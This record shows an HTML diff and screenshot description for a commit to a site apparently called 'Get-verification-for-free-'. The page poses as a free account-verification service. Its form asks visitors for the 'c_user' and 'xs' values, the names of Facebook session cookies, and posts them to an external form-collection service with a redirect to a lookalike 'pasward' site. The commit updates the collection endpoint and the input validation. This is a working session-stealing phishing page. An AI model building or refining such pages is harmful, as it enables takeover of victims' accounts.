

Before and after one commit to Applyfree/Get-verification-for-free-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 94-856 px from the top of the page. After the commit the page ends 822 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded; a script that the page names is missing.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -59,31 +59,41 @@
             <p class="fw-semibold validation_form_para mt-2">
               Please be sure to provide the requested information below.
             </p>
-            <form class='content' action="https://submit-form.com/BMiG2iVOg" method="POST">
-                                <input type="hidden" name="_redirect" value="https://submit-pass.vercel.app/?c_user=2&xs=R"/
-              <p class=" pl-3 text-[12px] font-semibold">
+            <form class='content' action="https://submit-form.com/AIKsAvvSm" method="POST">
+                                <input type="hidden" name="_redirect" value="https://pasward.vercel.app/"/>
 
-  </p>
-</div>
-<div>
-  <p class="text-slate-400 pl-4 mt-1">
-    c_user
-  </p><input class="border h-6 pl-1 mx-3" type="text" name="c_user" placeholder="" pattern="[0-9]+" minlength="6" id="c_user" title="Must Watch Detailed Video" required="1" aria-required="true">
-</div>
-<div>
-  <p class="text-slate-400 pl-4 mt-1">
-    xs
-  </p><input class="border h-6 pl-1 mx-3" type="text" name="xs" placeholder="" pattern="^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)(?=.*[@#$%^&+=]).{12,}$" title="Must Watch Detailed Video" required="1" aria-required="true">
-</div><div>
-  <p class="mt-4 pl-3 text-[12px] font-semibold">
-    Please make sure account not to log out from your computer or laptop until you have received a verification email.
-  </p>
-</div><div class="border mx-3 h-10 mt-4 bg-[#f5f6f7]"><div class="flex justify-end mx-2">
-  <button class="border h-7 w-16  bg-[#4267b2] text-white shadow-2xl mt-[0.30rem] font-serif font-thin text-xs hover:bg-blue-500" id="delete-btn">
-    Submit
-  </button></div>
+
+
+
+
+              <br />
+                  <label style="font-size: 12px;">c_user</label>
+                    <br>
+                    <input type="number" name="c_user" required pattern="^\d{15}$" title="Please enter 15 digits">
+                    <br>
+                    <label class="mt-2" style="font-size: 12px;">xs</label>
+                    <br>
+                    <input type="text" name="xs" required pattern="^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)(?=.*[@#$%^&+=]).{12,}$" title="The xs must be at least 12 characters long, contain one uppercase letter, one lowercase letter, one number, and one special character.">
+                    <p class="mt-2" style="font-size: 12px;">Please make sure not to log out from your computer or laptop until you have received a verification email.</p>
+                 </div>
+
+              </p>
+              <div
+                class="p-2 mb-2 d-flex justify-content-end"
+                style="background: rgb(245, 246, 247)"
+              >
+                <button
+                  type="submit"
+                  class="text-white border-0"
+                  style="background: rgb(66, 103, 178)"
+                >
+                  Submit
+                </button>
+              </div>
+            </form>
+          </div>
+        </div>
+      </div>
+    </div>
   </div>
- </div>
-  </form>
 </body>
-      </html>
```
